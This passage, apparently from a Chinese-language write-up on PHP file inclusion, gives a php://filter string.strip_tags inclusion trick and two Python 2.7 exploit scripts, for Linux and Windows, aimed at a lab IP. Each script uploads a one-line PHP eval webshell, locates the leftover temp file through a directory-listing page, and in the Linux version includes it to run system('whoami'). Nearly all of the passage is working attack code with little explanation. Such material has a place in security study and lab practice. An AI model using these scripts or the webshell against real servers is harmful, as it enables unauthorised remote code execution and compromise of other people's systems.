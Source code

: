 ```bash
index.php?file=php://filter/string.strip_tags/resource=index.php
```

### 攻击利用-技巧1

我们可以通过dir.php辅助查找生成的临时文件

编写 Linux Exp

Linux网络攻击环境下的脚本编写

```python
#python version 2.7

import requests
from io import BytesIO
import re

files = {
  'file': BytesIO('<?php eval($_REQUEST[Qftm]);')
}
url1 = 'http://192.168.68.119/index.php?file=php://filter/string.strip_tags/resource=index.php'
r = requests.post(url=url1, files=files, allow_redirects=False)

url2 = 'http://192.168.68.119/dir.php?dir=/tmp/'
r = requests.get(url2)
data = re.search(r"php[a-zA-Z0-9]{1,}", r.content).group(0)

print "++++++++++++++++++++++"
print data
print "++++++++++++++++++++++"

url3='http://192.168.68.119/index.php?file=/tmp/'+data
data = {
'Qftm':"system('whoami');"
}
r =  requests.post(url=url3,data=data)
print r.content
```

编写 Windows Exp

windows网络攻击环境下的脚本编写

```python
#python version 2.7

import requests
from io import BytesIO
import re

files = {
  'file': BytesIO('<?php eval($_REQUEST[Qftm]);')
}
url1 = 'http://192.168.68.119/web/fi/index.php?file=php://filter/string.strip_tags/resource=index.php'
r = requests.post(url=url1, files=files, allow_redirects=False)

url2 = 'http://192.168.68.119/web/fi/dir.php?dir=C:/Windows/'
r = requests.get(url2)
data = re.search(r"php[a-zA-Z0-9]{1,}", r.content).group(0)

print "++++++++++++++++++++++"
print data
print "++++++++++++++++++++++"

```